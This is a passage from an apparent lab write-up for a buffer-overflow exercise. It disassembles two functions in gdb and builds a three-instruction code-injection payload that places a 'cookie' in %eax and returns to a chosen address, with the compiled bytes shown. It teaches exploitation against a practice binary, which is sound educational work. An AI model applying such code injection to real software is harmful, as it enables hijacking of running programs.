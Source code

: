**End of assembler dump.**

From function **ah_choo()**, it can be seen that register %eax will be storing the return value of function **ah_choo()** (which is initially worth 1). It means that our remaining task is to change the contentss of register %eax into our cookie.
 
Let's see the contentss of function **ah_shoo()** so that we know whether there's any changes in register %eax or not. 
 
> (gdb) disas ah_shoo<br />

**Dump of assembler code for function ah_shoo:**

Address | Operation | Elements in operation
--- | --- | ---
0x08048d04 <+0>:  |  sub   |  $0xc, %esp
0x08048d07 <+3>:  |  call  |  0x8048cec <ah_choo>
0x08048d0c <+8>:  |  add   |  $0xc, %esp
0x08048d0f <+11>:  |   ret  |

**End of assembler dump.**

It can be seen that there's no any changes in register %eax so that we can confirmed that the return value of function **ah_choo()** is always located on register %eax after function **ah_choo()** was finished. Also note that the return address of function **ah_choo()** is 0x08048d0c.  

Let's get started!

As we'll change the contentss of register %eax, then we'll do the similar way as the previous level which means we'll do it through code injection. In our code injection there must be a command to change the contentss of register %eax into our cookie. Afterwards we must insert the return address of function **ah_choo()** as we'll return to procedure **test()** after this function was finished. Then the last instruction is just a return.

Here's the code:

> movl $0x1d9ed824, %eax<br />
> pushl $0x08048d0c<br />
> ret<br />

The first row changes the contentss of register %eax into our cookie.

The second row inserts the return address of function **ah_choo()** into the stack, then returned at the last row.

Open your terminal (not on GDB) and type this compilation command. (file name: assemblylvl3.s).

> gcc -m32 -c assemblylvl3.s<br />
> objdump -d assemblylvl3.o > assemblylvl3.d<br />
> cat assemblylvl3.d<br />

Will give this result:

The compiled code: | | 
--- | --- | ---
assemblylvl3.o:     file format elf32-i386 | | 
Disassembly of section .text: | |
00000000 <.text>: | |
0:    b8 24 d8 9e 1d    |       mov  |  $0x1d9ed824, %eax
5:    68 0c 8d 04 08    |       push |  $0x8048d0c
a:    c3                |       ret  |
